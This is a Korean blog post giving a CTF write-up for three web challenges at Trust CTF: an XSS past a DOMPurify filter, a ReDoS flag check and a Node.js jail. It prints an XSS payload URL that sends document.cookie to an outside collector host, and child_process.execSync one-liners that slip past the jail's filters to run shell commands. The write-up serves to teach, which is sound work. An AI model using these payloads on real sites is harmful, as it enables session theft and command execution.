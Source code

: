 ```yaml
---
layout: post
date: 2021-02-28 00:00:10
title: "Trust CTF Write Up"
categories: CTF
tags: [XSS, ReDos, Javascript]
author:
  - Jeongwon Jo

---
```

![](https://github.com/wjddnjs33/image/blob/main/TrustCTF/home.png?raw=true)

오늘은 디미고의 Trust라는 팀에서 CTF를 주최해서 참여를 했었습니다. 개인적인 일도 있고 해서 아침부터 참여하지 못 하고, 오후에 조금 참여를 했습니다.

---
## <span style="color:#21C587"></span> (Web) babyxss [270 pts]

> babyxss 문제는 DOMPurify Bypass로 위장한 간단한 XSS 문제입니다.

```php
<?php
require_once("secrets.php");
# This Challenge using newest version DomPurify..! Maybe unexploitable!!

if(isset($_GET['name'])) {
    header("content-security-policy: base-uri 'self'; block-all-mixed-content; connect-src 'self';");
    header('X-Frame-Options: DENY');
    echo "<h1 id='name'>Hello </h1>";
    echo '<script src="https://code.jquery.com/jquery-3.5.1.min.js"integrity="sha256-9/aliU8dGd2tb6OSsuzixeV4y/faTqgFtohetphbbj0=" crossorigin="anonymous"></script>';
    echo "<script type='text/javascript' src='https://cure53.de/purify.js'></script><script>var name='". base64_encode($_GET['name']) ."';document.getElementById('name').innerHTML += DOMPurify.sanitize($('<p>').html(atob(name)).text())</script>";
}

show_source(__FILE__);
```
문제로 들어오면 위와 같은 코드가 나오는데 보면 CSP도 걸려 있고, 밑에는 DOMPurify를 이용해서 XSS를 대응하고 있는 것을 볼 수 있습니다. 그래서 그냥 DOMPurify Bypass Payload를 아무 거나 삽입해서 트리거가 되길래 쿠키를 탈취해서 플래그를 얻었습니다.<br>

하지만 트리거가 된 이유는 DOMPurify를 우회해서가 아닙니다. DOMPurify는 최신 버전을 사용하고 있기 때문에 우회하는 건 불가능했습니다. 

```javascript
$('<p>').html(atob(name)).text()
```
하지만 위 코드를 `sanitize()` 메서드의 인자로 넘겨주고 있는 것을 볼 수 있습니다. 바로 저기서 DOM 내부에 잠시 들어가게 되는데 저때 XSS가 트리거가 되는 것 입니다. 그래서 일반적인 페이로드를 이용해서도 XSS트리거를 할 수 있습니다.

```
https://xss.trustctf.xyz/?name=%3Csvg%3E%3C/p%3E%3Cstyle%3E%3Ca%20id=%22%3C/style%3E%3Cimg%20src=1%20onerror=location.href=%27https://79a9bb50560aa2c77156e03b431dc2b3.m.pipedream.net/?f=%27.concat(document.cookie)%3E%22%3E
```

> FLAG : TRUST{cf909172b91c8bf3f70c0e71f2809f36}

---
## <span style="color:#21C587"></span> (Web) FLAG Checker [1000 pts]

> FLAG Checker 문제는 간단한 ReDos 문제입니다. 이론만 저번에 공부하고 처음 해보는데 그냥 신기한 기법인 거 같습니다. 

```php
Wrong.... <?php
    include "./secret.php";
    $result = preg_match("/{$_GET['flag']}/", $flag);
    if ($flag === $_GET['answer'] && $result === 1) {
        echo $flag;
    }
    else {
        echo "Wrong....";
    }

    highlight_file(__FILE__);
?>
```
문제로 들어오면 위와 같이 나오는데 얼마전에 이런 문제를 본적이 있어서 바로 ReDos가 생각이 났고, 해당 기법으로 슥삭 해주니 플래그가 나왔습니다. 해당 문제와 비슷한 문제가 나중에 webhacking.kr에도 올라온다고 해서 따로 익스 코드는 올리지 않겠습니다.

> FLAG : TRUST{2ef0c0b759425eed6d3932c109e0fe74}

---
## <span style="color:#21C587"></span> (Web) nodejail (Not Solve) [400 pts]

> nodejail 문제는 간단한 제일문제 입니다.

![](https://github.com/wjddnjs33/image/blob/main/TrustCTF/jail.png?raw=true)

문제로 들어오면 그냥 입력창 하나가 보입니다. Javasript 코드를 입력해주면 여러가지 문자가 필터링 걸린 것을 확인할 수 있습니다.<br>

```javascript
require(`child_process`).execSync(`c?t${IFS}~~`).toString()
```
대회 당시에는 위와 같이 ${IFS}를 이용해서 공백을 우회하는 방식을 이용해서 진행하고 있었습니다. 하지만 위와 같이 아무리 해봐도 `err`만 반환할 분 아무 일도 일어나지 않아 그냥 포기 했었습니다.

```javascript
require(`fs`).readdirSync(`./`)
```
대회가 끝나고 승주님에게 물어보니 `fs` 모듈을 이용해서 디텍터리 탐색을 하는 코드를 받을 수 있었다. 위 코드를 보고 한 참 어이가 없었다. `fs`를 모듈을 이용해서 파일을 읽고, 쓰고만 되는 줄 알았는데 알고 보니 디렉터리를 탐색할 수 있다는 것을 처음 알았기 때문이다.

```javascript
require(`child_process`).execSync(`\x63at\x20T\x2a`).toString()
```
그리고 두 번째는 경준님은 어케 풀었나 궁금해서 물어보니 위와 같이 위와 같이 16진수를 이용해서 공백을 우회한 것을 보고, 또 어이가 없었다..

> TRUST{th1s_1s_3xtrem3_n0d3_j41l}

---

